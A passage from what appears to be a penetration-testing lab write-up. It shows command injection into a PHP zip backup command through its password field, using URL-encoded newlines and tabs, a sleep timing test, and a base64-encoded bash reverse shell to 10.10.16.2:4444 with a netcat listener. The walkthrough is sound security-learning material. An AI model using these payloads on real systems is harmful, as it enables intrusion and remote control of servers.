| Sub-Shell | `$()` | `%24%28%29` | Both (Linux-only) |
| tab |  | `%09` |  |

Looks like we can use newline character to start a new command, and tab character to replace space. Let’s test if it works. First, let’s capture the request that creates the zip file with burp intercept:

![image.png](Attack%20Path%201d4068bbc57d80fe8c30e840fd3b6b4c/image%2012.png)

The command used is:

```bash
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";

#so we have control of the $password variable.

zip -x './backups/*' -r -P " . $password . "
```

We know that the server takes around 2 seconds to respond, let’s put a sleep command and let it sleep for 10 seconds:

```bash
%0asleep%0910%0a

request:
password=hello%0asleep%0910%0a&backup=

This will make the command
zip -x './backups/*' -r -P " . $password . "

sleep     10

" . $backupFile . " .  > " . $logFile . " 2>&1 &;
```

It worked. Now let’s try and execute a reverse shell:

```bash
/bin/bash -i >& /dev/tcp/10.10.16.2/4444 0>&1
echo -n '/bin/bash -i >& /dev/tcp/10.10.16.2/4444 0>&1' | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIvNDQ0NCAwPiYx

payload = %0abash<<<$(base64%09-d<<<L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIvNDQ0NCAwPiYx)

All together:
password=hello%0abash<<<$(base64%09-d<<<L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIvNDQ0NCAwPiYx)%0a&backup=
```

Let’s start a listener:

```bash
nc -lnvp 4444
```
